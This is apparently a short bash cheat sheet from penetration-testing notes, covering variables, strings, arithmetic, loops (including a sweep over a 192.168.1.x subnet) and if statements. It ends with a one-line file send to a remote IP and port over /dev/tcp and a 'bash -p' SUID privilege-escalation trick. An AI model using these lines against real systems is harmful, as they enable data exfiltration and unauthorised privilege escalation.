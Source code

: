 # bash

## Variables

### Assign Variable

```bash
foo=1
```

```bash
bar=baz
```

### Use Variable

```bash
$foo
```

---

## Strings

### Concatenate Strings

```bash
"$foo $bar literals, too"
```

---

## Arithmetic

```bash
$ n=100
$ ((n=$n+20))
$ echo $n
120
```

---

## For Loop Structure

### For Each
- Single Line

```bash
for name in $(cat names.txt); do echo $name; done
```

- Multiline

```bash
for name in $(cat names.txt); do
    echo $name
done
```

### For i in Range
- Single Line

```bash
for i in {1..254}; do echo "192.168.1.$i"; done
```

- Multiline

```bash
for i in {1..254};
    do echo "192.168.1.$i";
done
```

---

## If Structure
- Single Line

```bash
if [ $foo -gt 0 ]; then echo $foo; fi
```

- Multiline

```bash
if [ $foo -gt 0 ]; then 
    echo $foo
fi
```

---

## File Transfer

```bash
cat $FILE > /dev/tcp/$REMOTE_IP/$REMOTE_PORT
```

---

## Abuse SUID/SGID Bash

If `bash` is SUID and/or SGID, it won't automatically retain the privileges of the owner and/or group when executed by default. To retain those privileges, run it with the `-p` flag.

```bash
bash -p
```
